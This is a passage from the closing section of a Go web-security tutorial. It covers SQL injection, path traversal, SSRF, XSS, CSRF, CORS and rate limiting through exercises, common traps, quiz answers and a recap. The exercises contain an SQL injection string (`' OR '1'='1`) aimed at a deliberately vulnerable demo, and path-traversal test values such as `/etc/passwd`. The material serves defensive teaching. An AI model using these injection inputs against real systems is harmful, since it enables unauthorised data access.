depth 100000: err=jsontext: exceeded max depth within "/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/…/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0" after offset 10000
```

So 10,000 levels are fine and deeper is refused. Together with the 1 MiB body cap, a nested-array bomb can't hurt `ordersd`.

## Try it

1. **SQL.** Start `postgres:18` as `tutor-pg-websec`, run `cmd/sqli` with `c-42' OR '1'='1`, then change the bad query to use `$1` and run it again. Add a `sort` parameter with an allowlist map.
2. **Paths.** Add a `GET /download/{name}` route to a copy of `ordersd` that serves files from a directory with `os.Root`. Write a table test with `../x`, `/etc/passwd`, a symlink out, and `.env`.
3. **SSRF.** Add `10.0.0.0/8` to the internal service's address with `ip addr` in a network namespace (see [Network namespaces](../linux/namespaces-and-cgroups.md#network-namespaces-a-separate-network-stack)), and confirm `safeClient` refuses it. Then make the "is this address public?" function a table test.
4. **CSRF.** Wrap `ordersd`'s handler in `http.NewCrossOriginProtection().Handler(...)` in your copy, and write an `httptest` case with `Sec-Fetch-Site: cross-site` on `POST /v1/orders`.
5. **Rate limits.** Make the limiter evict clients not seen for 3 minutes, and test it with a fake clock.
6. **Scanners.** `gosec ./...` flags `fmt.Sprintf` SQL, `exec.Command` with variables, and missing `ReadHeaderTimeout` (the `//nolint:gosec` comments in `ordersd` are for it). It is a Go module, so mise builds it with the `go` backend: `mise use go:github.com/securego/gosec/v2/cmd/gosec@2.30.0`. <!-- TODO(real-output): gosec is not installed on this machine; run `gosec ./...` in a copy with the bugs above and show its findings. -->

## Traps

- **`fmt.Sprintf` into SQL "because the value is an int".** Today it is. Use `$1` everywhere, and an allowlist map for column names.
- **Trusting the driver to stop `; DROP TABLE`.** It stopped stacked queries here; it did not stop `OR '1'='1'` or `UNION`.
- **`exec.Command("sh", "-c", ...)` with any input.** And without the shell: a user value that starts with `-` is an option. Put `--` first.
- **`filepath.Join` as a security check.** It cleans `..` away, out of the directory. Use `os.Root`.
- **`http.Dir` on a directory with symlinks or dotfiles.** It follows the first and serves the second.
- **Checking the URL instead of the connection.** Names, redirects and DNS rebinding pass a URL check. Check the IP in `Dialer.Control`, and set `Proxy: nil`.
- **`netip.Addr.IsPrivate` as the whole SSRF check.** It doesn't cover loopback, link-local (the metadata IP) or `100.64.0.0/10`.
- **`text/template` for HTML, or `template.HTML(userInput)`.** Both turn escaping off.
- **State changes on `GET`.** No CSRF protection covers them, and crawlers and link previews call them too.
- **Echoing `Origin` with `Allow-Credentials: true`.** Any site can read your users' data. Compare against a fixed list, never with a suffix match.
- **Rate limiting by the left-most `X-Forwarded-For`.** The client wrote it. Use the entry your own proxy added.
- **An `http.Server` or `http.Client` with zero timeouts.** The zero value waits forever.
- **Raw errors in responses.** File paths, SQL and internal addresses help the attacker. Log them; send a request ID.

## Check yourself

??? question "1. A reviewer says: \"The customer ID is escaped with `strings.ReplaceAll(id, \"'\", \"''\")`, so `Sprintf` is fine.\" What do you answer?"

    Escaping is fragile: it depends on the database's quoting rules, on settings like
    `standard_conforming_strings`, on the encoding, and on every developer remembering it every time.
    A placeholder sends the value in a separate protocol field after the query is parsed, so there
    is nothing to escape. Use `$1`. For identifiers, which can't be placeholders, use an allowlist.

??? question "2. Your link preview service uses `checkURL` (parse the URL, refuse private IP literals). Give three ways past it, and the fix."

    A name that resolves to an internal IP (`localhost`, or a DNS record the attacker controls);
    a public URL that redirects to `http://127.0.0.1/`; DNS rebinding (public IP at check time,
    internal at connect time). The fix: check the resolved IP of every connection in
    `net.Dialer.Control`, with `Proxy: nil`, plus network-level blocks of the metadata IP.

??? question "3. Why did `curl` get through `http.CrossOriginProtection` with a `POST`, and why is that fine?"

    Requests with no `Sec-Fetch-Site` and no `Origin` header are treated as same-origin or
    non-browser, and allowed. CSRF abuses the cookies a victim's browser adds automatically; `curl`
    has no victim's cookie. It must show real credentials, which authentication checks.

??? question "4. Your API uses only `Authorization: Bearer` tokens kept in JavaScript memory, no cookies. Do you need CSRF protection? Do you need CORS?"

    No CSRF: the browser never adds the `Authorization` header to a forged request, so a forged
    request carries no credentials. CORS: only if browser code on **another** origin must call the
    API; then allow exactly those origins. CORS never protects the API; it only relaxes the
    browser's read rule.

??? question "5. `html/template` output contains `#ZgotmplZ`. What happened?"

    A value in a URL context (here an `href`) was unsafe, for example a `javascript:` URL, and
    `html/template` replaced it with that marker. Find out where the value comes from. Don't fix it
    by converting the value to `template.URL`: that turns the check off.

??? question "6. A rate limiter keyed by `r.RemoteAddr` works in the test, but in production every client shares one bucket. Why, and what do you change?"

    In production the service sits behind a load balancer, so `RemoteAddr` is the load balancer's
    address. Key by the client IP your own proxy writes into `X-Forwarded-For` (the entry it
    appended, not the left-most one), and after login by user or API key. Each replica also counts
    separately; use the gateway or a shared store for a global limit.

## Recap

- The OWASP Top 10 **2025**: Broken Access Control (now including SSRF and CSRF) is first; Injection (including XSS) is fifth. It is a map of where bugs live, not a checklist.
- **SQL:** placeholders send values separately from the query text, so input can't change the query. Column names come from an allowlist map.
- **Programs:** no shell; `--` before user values; better, do it in Go.
- **Files:** `os.Root` (Go 1.24) and `http.FileServerFS(root.FS())` refuse `..` and symlinks out. Nothing hides dotfiles for you.
- **SSRF:** check the address in `net.Dialer.Control`, after DNS, on every connection, with `Proxy: nil` and a list beyond `IsPrivate`. Block the metadata IP in the network too.
- **XSS:** `html/template` escapes per context; `template.HTML` and similar types switch that off. JSON APIs send an exact `Content-Type` and `nosniff`.
- **CSRF:** `http.CrossOriginProtection` (Go 1.25) refuses cross-origin unsafe methods using `Sec-Fetch-Site` and `Origin`. Never change state on `GET`.
- **CORS** relaxes the browser's read rule for a fixed list of origins. It does nothing against scripts.
- **Limits:** per-client token buckets (`x/time/rate`), body and header size limits, and timeouts on every server and client.

## You finished Security

You can now take apart the security of a Go service, layer by layer. You built a threat model of `orders` and found where it trusts too much. You know what hashes, MACs, AEAD and signatures each promise, and broke two of them on purpose. You know how a login becomes a session or a token, how OIDC and JWTs work, and how they fail. You can tell authentication from authorization, and you test object-level checks. Secrets live in a manager, expire, and never in Git. You can prove which code and which dependencies went into an image. And the handler itself keeps data as data, at every interpreter it talks to.

The pattern behind all of it: decide **where the trust boundaries are**, then make every boundary check something, fail closed, and leave evidence. The same pattern applies to the path your code takes to production. Next chapter: [Secure delivery](../secure-delivery/index.md), where every step from commit to deploy checks something and leaves evidence.
